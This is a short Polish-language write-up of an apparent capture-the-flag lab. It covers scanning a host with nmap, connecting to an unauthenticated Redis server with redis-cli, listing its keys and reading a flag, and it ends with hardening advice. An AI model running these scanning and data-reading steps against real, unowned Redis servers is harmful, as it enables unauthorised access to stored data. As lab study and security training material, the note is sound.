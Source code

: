 # Notatka z rekonesansu i eksploatacji — Redis (10.129.24.192)

  

**Data:** 2025-08-07  

**Host docelowy:** `10.129.24.192`  

**Adres źródłowy (tun0):** `10.10.14.152`  

**Cel:** Identyfikacja podatności i pozyskanie flagi (prawdopodobnie środowisko CTF)

  

---

  

## 🔎 1. Skanowanie portów (Nmap)

  

**Domyślny skan (`nmap 10.129.24.192`)** nie wykazał otwartych portów — skan obejmował jedynie 1000 najczęstszych portów TCP.  

  

Aby wykryć niestandardowe usługi, wykonano pełny skan portów:

  

```bash

nmap -p- -sV 10.129.24.192

```

  

**Wynik:**

```

PORT     STATE SERVICE VERSION

6379/tcp open  redis   Redis key-value store 5.0.7

```

  

---

  

## 🔌 2. Połączenie z Redisem (brak autoryzacji)

  

Redis działał na porcie 6379 **bez wymagania hasła**:

  

```bash

redis-cli -h 10.129.24.192 -p 6379

```

  

---

  

## 📦 3. Przegląd zawartości bazy Redis

  

Po wejściu do bazy (domyślnie `db0`):

  

```redis

select 0

keys *

```

  

Znalezione klucze:

```

1) "temp"

2) "stor"

3) "numb"

4) "flag"

```

  

---

  

## 🏁 4. Eksfiltracja flagi

  

Zawartość klucza `flag`:

  

```redis

get flag

"03e1d2b376c37ab3f5319922053953eb"

```

  

---

  

## ✅ Wnioski

  

- Redis był dostępny publicznie (brak firewall lub expose do internetu).

- Nie skonfigurowano hasła (`requirepass`), co pozwoliło na bezpośredni dostęp.

- W bazie danych znajdowała się wrażliwa informacja (`flag`), możliwa do odczytu bez uwierzytelnienia.

  

---

  

## 🛡️ Rekomendacje bezpieczeństwa

  

1. **Zamknąć port Redis (6379)** dla ruchu z zewnątrz.

2. Włączyć autoryzację (`requirepass`) i ewentualnie ACL (`user default off`).

3. Uruchamiać Redis tylko na `127.0.0.1`, za proxy lub VPN.

4. Nie przechowywać wrażliwych danych bez szyfrowania i kontroli dostępu.